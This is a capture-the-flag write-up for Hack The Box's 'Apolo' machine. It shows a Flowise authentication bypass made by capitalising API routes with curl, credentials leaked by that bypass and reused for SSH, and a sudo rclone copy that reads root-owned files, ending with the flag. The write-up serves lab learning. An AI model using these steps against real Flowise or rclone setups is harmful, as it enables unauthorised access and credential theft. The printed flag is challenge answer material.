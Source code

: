 ```yaml
---
layout: post
title: Apolo Writeup
date: 2024-12-17 12:53 +1100
categories: [CTF-Writeup, Binary-Badlands]
tags: [fullpwn, ctf, htb-ctf]
---
```

Apolo was a very easy fullpwn challenge from the Binary Badlands University CTF by Hack The Box in 2024.

As it is a fullpwn challenge, lets start by running an `nmap` scan with default scripts and version enumeration to see what we have access to:

```shell-session
callum@desktop:~$ sudo nmap -sCV 10.129.231.24
[sudo] password for callum:
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-17 12:24 AEDT
Nmap scan report for 10.129.231.24
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://apolo.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.77 seconds
```
We see that there is an `ssh` port open, and a `http` server. Lets add the redirected URL to our hosts file and visit the URL.

After scrolling through the website, we see a link to `http://ai.apolo.htb`. 
![](/assets/img/writeup/20241217122929.png)

Visiting this website, we see we have a `flowise` (https://flowiseai.com/) AI platform. We can try logging in with default credentials, but it does not work. After a quick search for `flowise exploit`, we find https://www.exploit-db.com/exploits/52001, an exploit that claims to bypass authentication by capitalising the link to api routes. The exploit POC is just running:
```shell-session
curl http://localhost:3000/Api/v1/credentials
```

So lets try this out.
```shell-session
callum@desktop:~$ curl http://ai.apolo.htb/Api/v1/credentials
[{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}]
```

This exploit seems to work here.  To use this exploit properly, the exploit recommends adding a Match and Replace rule for the website in burpsuite to change `api/v1` to `API/V1`. 

![](/assets/img/writeup/20241217123604.png)
_The Match and Replace rule_

After setting up a proxy through burpsuite and refreshing the website, it seems we have bypassed authentication. We can click around the website, and take a look at that credential we saw earlier.


![](/assets/img/writeup/20241217123751.png)
_The credential with a username and password_

In this credential we can see the username `lewis` and the password `C0mpl3xi3Ty!_W1n3`. Let's attempt authenticating to the box with `ssh` with these creds.
```shell-session
callum@desktop:~$ ssh lewis@apolo.htb
```
After using the password, we get logged in.

As we have the users password, we can check our `sudo` permissions with `sudo -l`.
```shell-session
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

It seems we can `rclone` with `sudo`. 
We can check our `rclone` version with `rclone version`, which tells us we are running `v1.68.1`. We can google an exploit for this version, which shows us https://nvd.nist.gov/vuln/detail/CVE-2024-52522. Apparently copying root owned files will allow us to access them. Let's try copying `/root/root.txt` to a directory with `rclone sync`.

```shell-session
lewis@apolo:/tmp/mount$ sudo /usr/bin/rclone sync /root/root.txt /tmp/mount
2024/12/17 01:43:13 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
lewis@apolo:/tmp/mount$ ls -la
total 12
drwxrwxr-x  2 lewis lewis 4096 Dec 17 01:43 .
drwxrwxrwt 14 root  root  4096 Dec 17 01:43 ..
-rw-r--r--  1 root  root    20 Nov 21 08:53 root.txt
lewis@apolo:/tmp/mount$ cat root.txt
HTB{cl0n3_rc3_f1l3}
```
Here we can see that when the file is copied, we are granted read permissions. We can abuse this to see `root.txt`, giving us the flag.
